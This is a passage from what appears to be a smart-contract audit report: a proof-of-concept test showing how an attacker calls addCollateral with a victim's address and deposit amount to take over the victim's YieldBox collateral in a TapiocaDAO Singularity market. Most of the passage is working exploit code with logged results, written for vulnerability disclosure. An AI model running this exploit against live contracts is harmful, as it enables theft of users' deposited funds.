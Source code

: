 ```solidity
                await wethUsdoSingularity.allowanceBorrow(eoa1.address,attackerEOA.address),
            ).equal(
                0,
            );

            console.log("======= Before the attack ======= ");
            console.log("User deposited collateral: ", _wethValShare);
            console.log("Attacker deposited collateral: ", _attackerWethValShare);
            console.log("Attacker collateral share in Singularity Market: ", await wethUsdoSingularity.userCollateralShare(attackerEOA.address));
            console.log("Attacker allowanceBorrow on the user: ", await wethUsdoSingularity.allowanceBorrow(eoa1.address,attackerEOA.address));
            console.log("\t\t===================================\n\n");

            // Performing the attack
              // Send `amount` set as the user's asset deposited amount in the YieldBox (wethDepositAmount)
              // Send `shares` set as 0 
            await wethUsdoSingularity
                .connect(attackerEOA)
                .addCollateral(
                    eoa1.address,
                    attackerEOA.address,
                    false,
                    wethDepositAmount,
                    0,
                );
                            
                // Validate attack
                expect(
                  await wethUsdoSingularity.userCollateralShare(attackerEOA.address),
                  ).equal(
                    await yieldBox.toShare(wethAssetId, wethDepositAmount, false),
                    );
                
                    
                console.log("======= After the attack ======= ");
                console.log("Attacker collateral share in Singularity Market: ", await wethUsdoSingularity.userCollateralShare(attackerEOA.address));
                console.log("User collateral share in Singularity Market: ", await wethUsdoSingularity.userCollateralShare(eoa1.address));
        });
    });
  });
```

- The PoC will demonstrate how an attacker can steal the user's deposited collateral in the YieldBox and debit accounts of their own as the owner of that collateral.
![Result of the PoC](https://res.cloudinary.com/djt3zbrr3/image/upload/v1690147483/TapiocaDAO/kp8wtlhqkmgiesebu0zz.png)


